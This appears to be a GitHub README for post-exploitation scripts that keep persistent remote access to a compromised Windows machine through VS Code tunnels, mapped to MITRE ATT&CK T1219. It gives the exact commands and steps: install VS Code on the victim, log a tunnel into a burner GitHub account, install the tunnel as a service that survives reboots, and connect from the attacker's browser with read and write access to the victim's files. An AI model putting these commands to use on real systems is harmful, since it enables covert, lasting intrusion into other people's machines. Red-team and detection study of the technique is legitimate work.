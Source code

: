 # WINDOWS PERSISTENCE VIA VSCODE TUNNELS  

## Abstract  
This directory contains some post-exploitation scripts and commands to (semi)automate windows persistence via [*vscode tunnels*](https://code.visualstudio.com/docs/remote/tunnels). 

## Technique
MITRE ATT&CK: [*Remote Access Tools - IDE Tunneling*](https://attack.mitre.org/techniques/T1219/001/)  

## Prerequisites  
- Access to a target windows machine with valid credentials and local administrative rights.  
- Powershell enabled for the current user on windows.  
- A burner Github or Microsoft Account.  
- An attacker machine with a browser and internet connection.  
  
## Instructions  

All the PS scripts are inside the `powershell` folder.  
If vscode is not already installed on the victim windows machine, you can automate the installation by launching the following script:  
```sh
.\installvs.ps1
```  
![download](./images/download_vs.png)  

![install](./images/install_vs_1.png)  


Once installed, you can close the current PS session.  

At this point you have locally installed VsCode, as well as the code-cli.  
You can procede to create a new tunnel with the following command (change the provider if you want to use microsoft instead of Github):  
```sh
code tunnel user login --provider github
```  

This will print a url and a code, reach that url and login with your burner account:  
![login1](./images/tunnel_login1.png)  
![login2](./images/tunnel_login2.png)   


Now that you are all set, start the tunnel with the following command:  
```sh
code tunnel service install --accept-server-license-terms --name "whatever-you-want-here"
```  

Then run the following to see the tunnel status:  
```sh
code tunnel status
```  
![status](./images/tunnel_status.png)  

Now, from a browser on you attacker machine, navigate to [https://vscode.dev](https://vscode.dev/) and connect to your tunnels via your github (or microsoft user):  
![attacker_login](./images/attacker_login.png)  

At this point you have both read and write access to the victim filesystems and the connection is persisted via the tunneling services even after the victim machine reboots!!  
![connected](./images/connected.png)  

In the end, if you want to delete the tunnel and disable the tunneling service, you need to run the following command on the victim machine:  
```sh
 code tunnel service uninstall; code tunnel kill ; code tunnel prune ; code tunnel status
```  



